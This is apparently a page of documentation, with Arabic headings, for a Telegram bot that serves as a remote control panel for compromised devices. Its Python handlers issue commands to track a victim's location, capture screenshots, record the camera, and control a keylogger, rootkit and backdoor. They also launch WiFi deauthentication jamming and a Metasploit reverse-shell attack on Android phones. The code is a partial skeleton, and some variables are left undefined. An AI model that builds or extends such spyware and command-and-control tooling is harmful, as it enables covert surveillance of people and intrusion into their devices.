 #### 2. **أوامر المراقبة:**
```python
@bot.message_handler(commands=['location'])
def get_location(message):
    # الحصول على الموقع
    result = command_executor.send_command(device_id, "get_location", {})
    
@bot.message_handler(commands=['screenshot'])
def take_screenshot(message):
    # التقاط الشاشة
    result = command_executor.send_command(device_id, "take_screenshot", {})
    
@bot.message_handler(commands=['record'])
def record_camera(message):
    # تسجيل الكاميرا
    result = command_executor.send_command(device_id, "record_camera", {})
```

#### 3. **أوامر البرمجيات الخبيثة:**
```python
@bot.message_handler(commands=['keylogger'])
def control_keylogger(message):
    # التحكم في Keylogger
    result = command_executor.send_command(device_id, "keylogger_control", {})
    
@bot.message_handler(commands=['rootkit'])
def control_rootkit(message):
    # التحكم في Rootkit
    result = command_executor.send_command(device_id, "rootkit_control", {})
    
@bot.message_handler(commands=['backdoor'])
def control_backdoor(message):
    # التحكم في Backdoor
    result = command_executor.send_command(device_id, "backdoor_control", {})
```

### ✅ **ب. الأوامر المتقدمة:**

#### 4. **أوامر الهجمات المتقدمة:**
```python
def handle_attack_callback(call):
    if data == "wifi_deauth":
        # هجوم Deauth على WiFi
        result = command_executor.send_command(device_id, "wifi_jamming", {
            "attack_type": "deauth",
            "target_ssid": "all",
            "duration": 60
        })
    
    elif data == "mobile_metasploit":
        # هجوم Metasploit على الأجهزة المحمولة
        result = command_executor.send_command(device_id, "mobile_attack", {
            "attack_type": "metasploit",
            "target_os": "android",
            "payload_type": "reverse_shell"
        })
```
